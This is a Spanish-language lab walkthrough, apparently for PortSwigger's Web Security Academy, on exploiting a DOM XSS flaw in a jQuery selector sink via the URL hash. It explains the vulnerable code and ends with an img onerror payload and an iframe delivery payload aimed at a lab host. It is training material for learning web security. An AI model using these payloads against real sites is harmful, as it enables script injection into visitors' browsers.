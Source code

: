 # DOM XSS in jQuery selector sink using a hashchange event

```c
$(window).on('hashchange', function(){
	var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
	if (post) post.get(0).scrollIntoView();
	});
```

- **Escuchando el evento `hashchange`:**

    `$(window).on('hashchange', function() {`
 Este evento se activa cada vez que cambia el hash en la URL (la parte de la URL que viene después de `#`).
- **Obteniendo el hash de la URL y buscando el elemento:**

```c
var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
```

   - `window.location.hash` obtiene el hash de la URL, incluyendo el símbolo `#`.
   - `slice(1)` elimina el `#` del inicio del hash.
   - `decodeURIComponent` decodifica cualquier carácter especial en el hash (como `%20` por un espacio).
   - `$('section.blog-list h2:contains(...)')` busca un elemento `h2` dentro de `section.blog-list` que contenga el texto del hash.
   
- **Desplazando la vista al elemento encontrado:**

```c
if (post) post.get(0).scrollIntoView();
```

- Si se encuentra un elemento que coincida con el texto del hash (`if (post)`), se llama a `scrollIntoView()` en el primer elemento encontrado (`post.get(0)`).
- `scrollIntoView()` desplaza la ventana del navegador para que el elemento sea visible en la vista.

Si la URL cambia a `http://example.com#Post%202`, el código buscará un `h2` dentro de `section.blog-list` que contenga el texto "Post 2" y desplazará la ventana para que ese elemento sea visible.

![20240806160040.png](20240806160040.png)

![20240806160120.png](20240806160120.png)

Ejecutando `window.location.hash` en la terminal podremos ver el valor que va después de `#`

```c
https://0aa7007a032fa4278011b75f00c50036.web-security-academy.net/#%3Cimg%20src=x%20onerror=print()%3E
```

![20250930232144.png](20250930232144.png)

Luego de analizar el código fuente por lo que podemos usar el siguiente payload para enviar a la victima y así ejecute un JavaScript

```c
<iframe src="https://0aa7007a032fa4278011b75f00c50036.web-security-academy.net/#<img src=1 onerror=print()>" onload="this.src+='<img src=1 onerror=print()>'" hidden="hidden>

</iframe>
```

